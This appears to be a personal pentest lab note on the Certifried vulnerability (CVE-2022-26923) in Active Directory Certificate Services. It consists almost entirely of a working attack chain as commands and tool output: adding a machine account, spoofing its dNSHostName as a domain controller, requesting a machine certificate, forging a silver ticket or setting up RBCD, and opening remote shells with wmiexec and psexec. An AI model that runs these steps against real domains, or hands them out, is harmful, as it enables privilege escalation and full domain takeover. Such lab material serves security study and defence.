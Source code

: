 # Certifried

> ***Certifried (CVE-2022-26923)***

This vulnerability is based manipulating **certificate mapping** when creating a computer account. Certificate mapping relied on `dNSHostName` attribute of a computer account. So when a computer requested a certificate, it trusted that `dNSHostName` as its identity.

**Exploit by**

1. Clear the SPN linked to computer account
2. Modify the `dNSHostName` to impersonate other machine.
3. Request a certificate using Machine template.

### Abuse

Check if CA is patched

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -dc-ip 10.129.228.237 -template User
```

Add computer which dnsHostName should match DCs.

```sh
addcomputer.py -computer-name 'CERTIFRIED$' -computer-pass 'Password123!' -dc-ip 10.129.228.134 'LAB.LOCAL/Blwasp':'Password123!'
```

Enumerate and check DNS names

```sh
certipy find -u 'BlWasp@lab.local' -p 'Password123!' -stdout -vulnerable
```

Edit dnsHostName with powerview

```sh
┌──(mczen㉿mczen)-[~/Dropbox/Win]
└─$ powerview lab.local/BlWasp:'Password123!'@10.129.228.237 
Logging directory is set to /home/mczen/.powerview/logs/lab-blwasp-10.129.228.237
[2025-01-31 18:51:15] [Storage] Using cache directory: /home/mczen/.powerview/storage/ldap_cache
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
PV > Set-DomainObject -Identity 'CERTIFRIED$' -Set dnsHostName="dc02.lab.local"
[2025-01-31 18:51:33] [Set-DomainObject] Success! modified attribute dnshostname for CN=CERTIFRIED,CN=Computers,DC=lab,DC=local
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
```

Request certificate and impersonate DC

```shell-session
certipy req -u 'CERTIFRIED$' -p 'Password123!' -dc-ip 10.129.228.134 -ca lab-LAB-DC-CA -template 'Machine'
```

Authenticate

```sh
certipy auth -pfx dc02.pfx
```

Proceed for silver ticket, get SID

```sh
nxc ldap 10.129.228.237 -u dc02$ -H cdd3cf40d6d5bee74013db1c26f58ee1 --get-sid
```

Get silver ticket

```sh
ticketer.py -nthash db35f9cf2e343f0795d33aef721a8f9a -domain-sid S-1-5-21-2810262047-4248699891-1002428937 -domain lab.local -spn cifs/dc02.lab.local Administrator
```

### Alternate Method

```shell
certipy auth -pfx dc02.pfx -dc-ip 10.129.228.237 -ldap-shell
```

In ldap shell

```sh
add_computer ESC1 E$C1
set_rbcd DC02$ ESC1$
exit
```

Request CIFS ticket

```shell
getST.py -spn cifs/dc02.lab.local -impersonate Administrator -dc-ip 10.129.228.237 'lab.local/esc1$:E$C1'
```

Then connect

```sh
# WMI
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache wmiexec.py -k -no-pass dc02.lab.local  

# PSEXEC
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache psexec.py -k -no-pass dc02.lab.local
```
